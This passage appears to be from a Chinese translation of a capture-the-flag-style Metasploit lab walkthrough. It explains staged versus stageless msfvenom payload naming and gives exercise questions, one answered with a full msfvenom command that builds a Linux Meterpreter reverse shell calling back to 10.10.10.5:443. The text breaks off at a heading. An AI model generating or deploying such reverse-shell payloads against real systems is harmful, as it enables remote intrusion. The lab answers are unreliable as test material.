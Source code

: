 以上的例子中所用的 payload 是 `shell_reverse_tcp`，这表明其是一个 stageless payload。为什么呢？因为 Stageless payloads 用 下划线表示。这个 payload 的 staged 版本是 `shell/reverse_tcp`，因为 staged payloads 用斜线来表示。

一个 32 位的 linux stageless Meterpreter payload 如下所示：
    
```bash
linux/x86/meterpreter_reverse_tcp
```

当我们在使用 msfvenom 时，要注意到的另一件重要的事情是：
```bash
msfvenom --list payloads
```
该命令可用于看列出所有可用 payloads，我们可在该命令后拼接上管道符以及 `grep` 命令来查找特定 payloads 集合。举个例子：

![](https://i.imgur.com/D6TjHG3.png)


以上命令会给出 32 位 linux 目标的 neterpreter paylodas 的完整集合。
    
**回答以下问题：**
1. 生成一个用于 64 位 Windows 目标的 staged 反向 shell（.exe 格式）
2. 哪个符号被用来表明一个 shell 是 stageless 的？
    
3. 使用什么命令生成一个用于 64 位的 Linux 目标的 staged meterpreter 反向 shell？假定你的 ip 是 10.10.10.5，监听的端口是 443，shell 的格式是 `elf`，输出的文件名是 `shell`
    
 
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp -LHOST=10.10.10.5 -LPORT=443 -f elf -o shell
```

### 2.10 Metasploit multi/handler

Multi
    
    
